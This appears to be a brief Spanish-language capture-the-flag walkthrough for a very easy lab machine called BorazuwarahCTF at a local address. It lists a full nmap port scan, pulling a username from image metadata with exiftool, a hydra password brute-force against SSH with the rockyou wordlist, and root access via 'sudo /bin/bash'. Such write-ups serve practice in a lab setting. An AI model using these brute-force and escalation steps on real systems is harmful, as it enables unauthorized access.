 Maquina: BorazuwarahCTF
Autor: BorazuwarahCTF
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 

Visitamos la pagina web 
https://172.17.0.2

nos descargamos la imagen
usamos la herramienta exiftool
sudo exiftool imagen.jpeg
encontramos el usuario

hydra -l borazuwarah -P /usr/share/wordlist/rockyou.txt.gz
obtenemos la contraseña y entramos por ssh

ssh borazuwarah@172.17.0.2

sudo -l
sudo /bin/bash
whoami
